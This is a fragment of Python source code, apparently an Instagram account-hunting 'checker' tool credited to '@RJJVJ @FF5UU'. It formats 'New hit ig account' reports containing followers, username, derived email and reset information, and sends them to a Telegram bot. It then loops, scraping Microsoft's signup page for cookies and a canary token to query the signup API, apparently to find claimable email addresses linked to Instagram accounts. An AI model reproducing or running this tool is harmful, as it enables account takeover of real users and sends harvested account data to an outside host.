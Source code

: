 	    try:
	        ff = f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Followers ⌉  :  {followers}
	⌊ Following ⌉  :  {following}
	⌊ Username ⌉  :  {username}
	⌊ Posts ⌉  :  {posts}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ Date ⌉  :  {date}
	⌊ Rest ⌉  :  {rrr}
	════════════════
	≣ By @RJJVJ @FF5UU
	        """
	        requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
	    except:
	        ff = f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Username ⌉  :  {username}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ Rest ⌉  :  {rest(username)}
	════════════════
	≣ By @RJJVJ @FF5UU
	        """
	        requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
	while True:
	    try:
	        res = gg('https://signup.live.com/signup')
	        amsc = res.cookies.get_dict().get('amsc')
	        canary = res.text.split('"apiCanary":"')[1].split('"')[0].encode().decode('unicode_escape')
	        cookies = {
	            'amsc': amsc,
	        }
	        headers = {
	            'authority': 'signup.live.com',
	            'accept': 'application/json',
	            'canary': canary,
	            'origin': 'https://signup.live.com',
	            'referer': 'https://signup.live.com/signup?lic=1&uaid=f26d1e8726944e3f9cc96aafdfdf8225',
	            'user-agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36',
	        }
	
	        json_data = {
	            'clientExperiments': [
	                {
	                    'parallax': 'enablejspublickeydeprecationexperiment',
	                    'control': 'enablejspublickeydeprecationexperiment_control',
	                    'treatments': [
	                        'enablejspublickeydeprecationexperiment_treatment',
	                    ],
	                },
	            ],
	        }
	